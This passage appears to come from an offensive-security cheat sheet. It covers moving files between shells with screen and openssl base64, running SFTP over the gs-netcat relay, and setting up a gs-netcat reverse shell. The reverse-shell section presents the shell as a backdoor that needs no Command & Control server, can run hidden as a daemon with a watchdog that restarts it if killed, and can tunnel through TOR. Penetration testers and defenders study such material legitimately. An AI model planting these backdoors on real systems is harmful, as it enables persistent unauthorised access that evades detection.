 On your local system (from within a different shell) encode the data:
```sh
openssl base64 </etc/issue.net >screen-xfer.txt
```

On the remote system (and from within the current *screen*):
```sh
openssl base64 -d
```

Get *screen* to slurp the base64 encoded data into screen's clipboard and paste the data from the clipboard to the remote system:

> CTRL-a : readbuf screen-xfer.txt

> CTRL-a : paste .

> CTRL-d

> CTRL-d

Note: Two C-d are required due to a [bug in openssl](https://github.com/openssl/openssl/issues/9355).

<a id="ftgs-anchor"></a>
**4.vii. File transfer - using gs-netcat and sftp**

Use [gs-netcat](https://github.com/hackerschoice/gsocket) and encapsulate the sftp protocol within. It uses the Global Socket Relay Network and no central server or IP address is required to connect to the SFTP/Gsocket server (just a password hash).
```sh
gs-netcat -s MySecret -l -e /usr/lib/sftp-server         # Host
```

From your workstation execute this command to connect to the SFTP server:
```sh
export GSOCKET_ARGS="-s MySecret"                        # Workstation
sftp -D gs-netcat                                        # Workstation
```

---
<a id="reverse"></a>
## 5. Reverse Shells
<a id="rswg-anchor"></a>
**5.i.a. Reverse shell with gs-netcat**

Use [gs-netcat](https://github.com/hackerschoice/gsocket). It spawns a fully functioning PTY reverse shell and using the Global Socket Relay network. It uses 'password hashes' instead of IP addresses to connect. This means that you do not need to run your own Command & Control server for the backdoor to connect back to. If netcat is a swiss army knife than gs-netcat is a german battle axe :>

```sh
gs-netcat -s MySecret -l -i    # Host
```
Use -D to start the reverse shell in the background (daemon) and with a watchdog to auto-restart if killed.

To connect to the shell from your workstation:
```sh
gs-netcat -s MySecret -i
```
Use -T to tunnel trough TOR.
